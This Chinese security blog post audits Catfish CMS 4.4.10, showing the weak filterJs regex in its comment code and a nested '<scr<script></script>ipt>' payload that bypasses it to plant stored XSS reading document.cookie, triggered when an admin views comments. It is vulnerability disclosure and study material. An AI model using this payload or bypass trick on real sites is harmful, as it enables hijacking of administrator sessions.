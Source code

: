 ```yaml
---
title: Catfish(鲶鱼) CMS V 4.4.10 留言板存储型XSS漏洞
date: 2017-07-11 19:34:56
tags: [代码审计,XSS,漏洞分析]
categories: Web安全
---
```

Catfish(鲶鱼) CMS V 4.4.10 ：http://www.catfish-cms.com/

本文首发于：[Catfish(鲶鱼) CMS V 4.4.10 留言板存储型XSS漏洞](https://chybeta.github.io/2017/07/11/Catfish-%E9%B2%B6%E9%B1%BC-CMS-V-4-4-10-%E7%95%99%E8%A8%80%E6%9D%BF%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E/)

# 审计

在`...\application\index\controller\Index.php`中，定义了评论功能。代码如下；
```php
//添加评论
$data = [
	'post_id' => Request::instance()->post('id'),
	'url' => 'index/Index/article/id/'.Request::instance()->post('id'),
	'uid' => Session::get($this->session_prefix.'user_id'),
	'to_uid' => $beipinglunren['post_author'],
	'createtime' => date("Y-m-d H:i:s"),
	'content' => $this->filterJs(Request::instance()->post('pinglun')),
	'status' => $plzt
];
Db::name('comments')->insert($data);
```
评论内容content在经过函数filterJs过滤后插入到数据库中。

filterJs定义在`...\application\index\controller\Common.php`中
```php
protected function filterJs($str)
{
        return preg_replace(['/<script[\s\S]*?<\/script>/i','/<style[\s\S]*?<\/style>/i'],'',$str);
}
```
仅做了简单的过滤，只要构造下列payload就可绕过:
```
<scr<script></script>ipt>alert(document.cookie)</scr<script></script>ipt>
```
filterJs会把`<script>**</script>替换为空`，从而使插入到数据库中的数据变为：
```
<script>alert(document.cookie)</script>替换为空
```

# 验证

以普通账户user登陆，并对文章进行评论

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/2.jpg?raw=true)

因为Catfish CMS在前端进行了一次编码过滤，若是直接在评论区直接插入payload会被编码转换。所i抓包，将pinglun参数改为payload

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/3.jpg?raw=true)

admin登陆后台，触发XSS：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/4.jpg?raw=true)

查看源代码：

![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170711/5.jpg?raw=true)
